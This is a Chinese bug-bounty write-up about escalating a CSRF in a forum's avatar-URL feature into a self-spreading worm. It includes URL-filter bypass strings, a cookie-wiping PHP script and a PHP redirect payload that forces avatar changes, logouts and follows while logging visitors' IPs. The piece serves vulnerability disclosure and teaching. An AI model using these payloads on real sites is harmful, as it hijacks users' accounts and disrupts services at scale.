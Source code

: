 #  记一次某大厂csrf漏洞通过蠕虫从低危到高危   
 黑白之道   2025-03-15 21:22  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/3xxicXNlTXLicwgPqvK8QgwnCr09iaSllrsXJLMkThiaHibEntZKkJiaicEd4ibWQxyn3gtAWbyGqtHVb0qqsHFC9jW3oQ/640?wx_fmt=gif "")  
  
文章首发在：奇安信攻防社区  
  
https://forum.butian.net/share/4190  
  
本文记载了笔者src漏洞挖掘的经历，如何将一个简单的csrf提高至高危的程度  
# 初见端倪  
  
在上传的头像的点位:  
  
![blog1.png](https://mmbiz.qpic.cn/mmbiz_jpg/iar31WKQlTTpUgwIpGMBDIhGty5nNT6waMzlQuZBAtVCPhQOM2j4fm5DP2stsvPchJBDI7gHaaiccdwlut9paicjg/640?wx_fmt=jpeg&from=appmsg&wxfrom=13&tp=wxpic "")  
  
当时抓了一个包，发现这个地方更换头像分为三部走:  
- 一，把头像图片上传到云返回云上的地址  
  
- 二，通过另外一个接口上传头像地址的链接  
  
- 三，通过前端中的<img src="头像地址">  
显示  
  
乍一看应该没啥问题，但是问题大了，就出在第二部分。加载图片的本质实际上是去发送一个get请求，但如果这个get请求指向的是某个站内的api，是不是就相当于触发了这个GET请求的接口？这就来试试  
  
```
{"code":500,"message":"URL异常"}
```  
  
很显然，开发者已经想到这一步了，接下来就考虑如何绕过了  
# 绕过限制  
  
已知对方的云服务器地址是xxxcloud.net (已经打码)， 先是测试了@xxxcloud.net  
```
POST /v1.1/avaimageupload.api?product=*****-HTTP/2Host: api.*****.comCookie:****User-Agent: *****-Android 8.1.9 (22127RK46C; Android 9; null) WIFI*****-Phone-Login-Auth: *****Market: *****Deviceid: *****Dadeviceid: *****Androidid: f99ebeddbfb51ff1X-Reqid: ZM5XC3Q0Accept-Encoding: gzip, deflate, brContent-Type: application/x-www-form-urlencoded; charset=utf-8Content-Length: 76imageUrl=***.xxxcloud.net/**.png&blogId=***
```  
### 第一层限制  
  
结果发现是要求必须用xxxcloud.net开头的域名，这个简单，我这里直接使用@  
来绕过就可以了  
http://xxxcloud.net@vps.hacker/  
 会把@前面的东西解析成用户名，就导致了绕过。当然，还有很多中方式来绕过这层限制，这里列举几种常用的。比如@  
你甚至还可以和?  
组合拳  
  
在服务端看来  
```
http://www.hack.com?@qq.com
```  
  
域名是qq.com  
  
但是浏览器特性：会在?前面添加/，所以实际访问的域名就是  
```
http://www.hack.com/?@qq.com
```  
  
还有就是\  
浏览器会默认转成/  
```
http://hack.com\.www.qq.com
```  
  
还有就是:../  
目录穿越绕过  
```
http://www.qq.com/../hack.com
```  
  
你甚至可以使用宽字节的思路来绕过  
```
http://hack.com%df/.qq.com
```  
  
但是这个位置不止在此一个过滤还有其他限制  
## 结尾绕过  
  
经过模糊测试，要求结尾必须是.png .jpg .gif中的一个，这可咋办？  
  
简单我们使用?&<无关紧要的参数>=.jpg  
,绕过  
# 初步利用  
  
现在我们已经可以通过上述手段让受害者通过<img src>  
标签来实现对我们服务器的GET API访问，但是这其实没有任何危害。  
## 退出dos  
  
第一种利用方式是dos。经过测试我发现这个大厂论坛的退出接口虽然是通过POST传参的，但其实还是允许接受GET传参/api/logout  
，这就造成了个问题如果我让受害者访问这个攻击者路由的过程中302转跳访问了/api/logout  
不就自动退出登录了吗？这种情况就造成了我只要顶着我这个头像去大V留个言的作品底下留个言论，凡是看到我评论的就会掉线，这就是最简单的拒绝服务攻击。有人会说，如果logout  
接口是只允许POST传参，这下就该咋办呢？别急，我们还可以在VPS上出创建一个php脚本  
```
<?php// 清空当前所有Cookieif (isset($_COOKIE)) {    foreach ($_COOKIEas$name => $value) {        // 设置Cookie的过期时间为过去，这样浏览器会自动删除它        setcookie($name, '', time() - 86400, '/');    }}?>
```  
  
这样我们通过把cookie值设置到了过去变相的去删除了浏览器中的所有cookie，回到那个论坛由于没有cookie也就自动退出了。但是这个影响还是很有限，只能到中危，如何进一步提高危害呢？  
# 柳暗花明  
  
这个时候发现了一个点位虽然这个修改头像是默认POST传参的，但是你还是可以通过GET传参提交  
```
api.*****.com/v1.1/avaimageupload.api?product=*****&imageUrl=***vps/**.png&blogId=***
```  
  
这就有意思了兄弟们，试想一下，如果我通过vps+302跳转到  
http://api.*****.com/v1.1/avaimageupload.api?product=*****&amp;imageUrl=**\*vps/\**.png&amp;blogId=  
***  
  
这个路由，那会发生什么？  
  
没错，当别人看到我头像(指向GET修改头像的API)，就会自动修改自己的头像，成指向GET修改头像的API，然后其他人再去看到他们的头像。。。  
  
一传十，十传百这样就可以影响到全站的用户。如果这个时候，我把VPS上的poc.php内容修改成退出访问/logout，不就会让全站的用户的退出了吗？  
  
等下，利用链不止于此，我发现那个关注的接口也是可以通过GET传参，这就说明可以恶意刷关注量了。  
# 实践开始  
  
首先在对应的服务器上创建这样一个php脚本用于转跳  
```
<?phpsession_start(); // 启用会话$ip = $_SERVER['REMOTE_ADDR']; // 获取访问者的 IP 地址$referer = isset($_SERVER['HTTP_REFERER']) ? $_SERVER['HTTP_REFERER'] : ''; // 获取 Referer// 定义跳转 URL$firstRedirect = "https://api.*****.com/v1.1/avaimageupload.api?product=*****-android-8.1.9&imageUrl=www.7ntsec.cn/avaimg.*****.net/location_check.php&blogId=2267493166";$secondRedirect = "https://api.*****.com/v1.1/follow.api?followtype=follow&product=*****-android-8.1.9&targetblogid=529578359&blogdomain=*****gamer.*****.com";$refererRedirect = "https://avaimg.*****.net/img/";// 日志文件路径$logFile = "./access_log.txt";// 记录日志的函数functionlogAccess($ip, $referer, $visitCount, $redirectUrl) {global$logFile;$timestamp = date("Y-m-d H:i:s");$logEntry = "[$timestamp] IP: $ip | Referer: $referer | Visit Count: $visitCount | Redirect: $redirectUrl\n";  file_put_contents($logFile, $logEntry, FILE_APPEND); // 追加写入日志}// 如果 Referer 包含 gcweb.*****.com，则直接跳转并记录日志if (strpos($referer, "gcweb.*****.com") !== false) {  logAccess($ip, $referer, "N/A", $refererRedirect);  header("Location: $refererRedirect");exit;}// 记录访问次数（基于 IP）if (!isset($_SESSION['visit_count'][$ip])) {$_SESSION['visit_count'][$ip] = 1;} else {$_SESSION['visit_count'][$ip]++;}// 根据访问次数进行跳转并记录日志if ($_SESSION['visit_count'][$ip] == 1) {  logAccess($ip, $referer, $_SESSION['visit_count'][$ip], $firstRedirect);  header("Location: $firstRedirect");exit;} elseif ($_SESSION['visit_count'][$ip] == 2) {  logAccess($ip, $referer, $_SESSION['visit_count'][$ip], $secondRedirect);  header("Location: $secondRedirect");exit;}?>
```  
  
我这里的思路就是同一个IP第一次访问就是去修改头像，第二次就是直接退出，就实现了自动利用的效果。  
  
但还是碰到这个问题，回到上述的数据包:  
```
api.*****.com/v1.1/avaimageupload.api?product=*****&imageUrl=***vps/**.png&blogId=***
```  
  
我们还需要这个blogid如果获取不了的话就会修改不成  
  
这里我组合利用了另外一个接口:  
```
https://****/*****/web/all.json?key=<username>
```  
  
这个可以直接获取那些高赞博主blogid,就造成了利用。虽然到这一步还是不能自动化利用，但是还是可以通过获取特定高粉丝博主的blogid，然后修改csrfpoc对应的blogid，在这些博主的作品留言实现定向感染高粉丝博主，感染完成后，修改poc成具体危害的数据包如退出，关注等，实现大规模利用的。最终评级是拿到了高危。  
  
  
黑白之道发布、转载的文章中所涉及的技术、思路和工具仅供以安全为目的的学习交流使用，任何人不得将其用于非法用途及盈利等目的，否则后果自行承担！  
  
如侵权请私聊我们删文  
  
  
**END**  
  
  
